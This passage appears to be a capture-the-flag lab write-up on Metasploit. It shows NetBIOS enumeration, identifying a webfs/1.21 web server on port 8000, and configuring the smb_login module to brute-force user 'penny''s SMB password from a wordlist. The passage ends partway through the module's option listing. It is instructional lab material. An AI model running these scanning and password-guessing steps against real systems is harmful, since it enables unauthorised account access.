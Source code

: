 ```bash
Discovered NetBIOS on 10.48.148.151:137 (__MSBROWSE__:<01>:G ::<00>:U ::<03>:U ::<20>:U :ACME IT SUPPORT:<00>:G :ACME IT SUPPORT:<1d>:U :ACME IT SUPPORT:<1e>:G :00:00:00:00:00:00)
```

**Ans:** `ACME IT SUPPORT`

#### 3) What is running on port 8000?

*Okay, we know for a fact that this is a web server from our `nmap` scans. We can try searching for the specific server version*

```
search http_version
use 0 
```

```bash
set RPORT 8000
run
```

```bash
10.48.148.151:8000 webfs/1.21 ( 403-Forbidden )
```

**Ans:** `webfs/1.21`

#### 4) What is the "penny" user's SMB password?

*Since I'm using the attackbox. I already have the wordlist in my default wordlist directory. For this, we can use the. `smb_login` module - It requires a bit of searching around to find.*

```bash 
set SMBUSER penny
set PASS_FILE /usr/share/wordlists/MetasploitRoom/MetasploitWordlist.txt
show info
```

```bash
       Name: SMB Login Check Scanner
     Module: auxiliary/scanner/smb/smb_login
    License: Metasploit Framework License (BSD)
       Rank: Normal

Provided by:
  tebo <tebo@attackresearch.com>
  Ben Campbell <eat_meatballs@hotmail.co.uk>
  Brandon McCann "zeknox" <bmccann@accuvant.com>
  Tom Sellers <tom@fadedcode.net>

Check supported:
  No

Basic options:
  Name               Current Setting           Required  Description
  ----               ---------------           --------  -----------
  ABORT_ON_LOCKOUT   false                     yes       Abort the run when an account lockout is
                                                          detected
  ANONYMOUS_LOGIN    false                     yes       Attempt to login with a blank username a
                                                         nd password
  BLANK_PASSWORDS    false                     no        Try blank passwords for all users
  BRUTEFORCE_SPEED   5                         yes       How fast to bruteforce, from 0 to 5
  CreateSession      false                     no        Create a new session for every successfu
                                                         l login
  DB_ALL_CREDS       false                     no        Try each user/password couple stored in
                                                         the current database
  DB_ALL_PASS        false                     no        Add all passwords in the current databas
                                                         e to the list
  DB_ALL_USERS       false                     no        Add all users in the current database to
```